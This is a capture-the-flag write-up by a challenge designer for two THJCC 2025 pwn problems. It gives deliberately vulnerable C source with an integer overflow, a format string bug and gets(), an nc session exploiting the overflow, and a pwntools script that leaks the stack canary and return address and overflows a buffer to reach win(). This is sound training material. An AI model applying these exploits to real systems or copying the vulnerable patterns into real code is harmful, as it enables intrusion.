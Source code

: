 ```yaml
---
title: "THJCC 2025 WriteUp"
description: "THJCC 2025 WriteUp (Question designer)"
publishDate: "21 Apr 2025"
updatedDate: "25 Aug 2025"
tags: ["CTF", "writeup", "pwn"]
---
```


> This document contains only the problems I created.

# Pwn

## Flag Shopping

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);
	setbuf(stderr, NULL);

	printf("            Welcome to the FLAG SHOP!!!\n");
	printf("===================================================\n\n");
	
	int money = 100;
	int price[4] = {0, 25, 20, 123456789};
	int own[4] = {};
	int option = 0;
	long long num = 0;
	
	while(1){
		printf("Which one would you like? (enter the serial number)\n");
		printf("1. Coffee\n");
		printf("2. Tea\n");
		printf("3. Flag\n> ");

		scanf("%d", &option);
		if (option < 1 || option > 3){
			printf("invalid option\n");
			continue;
		}
		
		printf("How many do you need?\n> ");
		scanf("%lld", &num);
		if (num < 1){
			printf("invalid number\n");
			continue;
		}

		if (money < price[option]*(int)num){
			printf("You only have %d, ", money);
			printf("But it cost %d * %d = %d\n", price[option], (int)num, price[option]*(int)num);
			continue;
		}

		money -= price[option]*(int)num;
		own[option] += num;
		
		if (own[3]){
			printf("flag{fake_flag}");
			exit(0);
		}
	}
}
```

### Solution

It's obvious that the way "num" is handled leads to an integer overflow, so we can simply provide a sufficiently large number to trigger it.

```bash
❯ nc chal.ctf.scint.org 10101
            Welcome to the FLAG SHOP!!!
===================================================

Which one would you like? (enter the serial number)
1. Coffee
2. Tea
3. Flag
> 1
How many do you need?
> 100000000
Which one would you like? (enter the serial number)
1. Coffee
2. Tea
3. Flag
> 3
How many do you need?
> 1
THJCC{W0w_U_R_G0oD_at_SHoPplng}
```

## Little Parrot

### Source Code

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// gcc -o chal chal.c

void win(){
        printf("\nYou win!\n");
        printf("Here is your flag: flag{fake_flag}");
        fflush(stdout);
}

int parrot(){
        char buf[0x100];
        printf("I'm a little parrot, and I'll repeat whatever you said!(or exit)\n> ");
        while(1){
                fflush(stdout);
                fgets(buf, sizeof(buf), stdin);

                if (!strcmp(buf, "exit\n")){
                        break;
                }

                printf("You said > ");
                printf(buf);
                printf("> ");
                fflush(stdout);
        }
}

int main(){
        parrot();

        char buf[0x30];
        printf("anything left to say?\n> ");
        fflush(stdout);
        getchar();
        gets(buf);
        printf("You said > %s", buf);
        fflush(stdout);
        return 0;
}
```

### Solution

It is easy to tell that the "parrot" function contains a format string vulnerability, and we are able to leak its return address, then calculate the memory address of the "win" function ourselves.

```python
from pwn import *
r = remote("chal.ctf.scint.org", 10103)

# Leak Canary
r.sendlineafter(b"> ", b"%39$p")
canary = int(r.recvline().split()[-1], 16)
print(f"Canary: {hex(canary)}")

# Leak return address
r.sendlineafter(b"> ", b"%41$p")
win = int(r.recvline().split()[-1], 16) - (0x136c - 0x1229)
print(f"Win: {hex(win)}")

r.sendlineafter(b"> ", b"exit")
r.sendlineafter(b"> ", b"a"*0x39 + p64(canary) + p64(0) + p64(win))

r.interactive()
```
